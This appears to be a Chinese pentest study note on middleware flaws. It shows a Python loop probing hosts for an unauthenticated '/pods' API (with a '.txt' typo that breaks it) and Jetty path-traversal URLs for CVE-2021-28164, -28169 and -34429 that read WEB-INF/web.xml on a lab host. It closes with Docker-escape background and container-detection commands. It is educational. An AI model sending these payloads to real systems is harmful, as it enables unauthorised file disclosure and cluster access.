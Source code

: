 ```plain
	url=url.strip()+'/pods'
	print(url)
	try:
		result=requests.get(url,verify=False).txt
		if 'Unauthorized' not in result:
			print('+|'+url)
	except Exception as e:
		pass
```

- 中间件-Jetty-搜哈

```plain
Elipse Jetty是一个开源的servlet容器，它为基于Java的Web容器提供运行环境。
访问路径来获取文件内容，同一个漏洞，知识修复后再次被利用。
环境：http://vulfocus.io/#/dashboard

CVE-2021-28164
http://123.58.236.76:63126/%2e/WEB-INF/web.xml
CVE-2021-28169
http://123.58.236.76:63126/static?/WEB-INF/web.xml
CVE-2021-34429
http://123.58.236.76:63126/%u002e/WEB-INF/web.xml
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134812129-716852327.png)

- 中间件-Docker-搜哈

```plain
Docker容器是使用沙盒机制，是单独的系统，理论上是很安全的，通过利用某种手段，再结合执行POC或EXP，就可以返回一个宿主机的高权限Shell，并拿到宿主机的root权限，可以直接操作宿主机文件。 它从容器中逃了出来，因此我们形象的称为Docker逃逸漏洞。

权限对比：
1.docker启动的web Nginx环境
在真机上找不到相对应的目录，相当于虚拟机。

2.常规Nginx启动的web环境
和正常的环境的目录，文件等各自一致，真实存在的。权限也是一样的。
启动docker搭建的Nginx环境：
cd vulhub-master/nginx/nginx_parsing_vulnerability/
sudo docker-compose up -d

访问：http://192.168.233.128/
然后进行权限分析。
```

容器判断

```plain
-是否存在.dockerenv文件
ls -alh /.dockerenv

-查询系统进程的cgroup信息：
cat /proc/1/cgroup

真实机执行命令
```
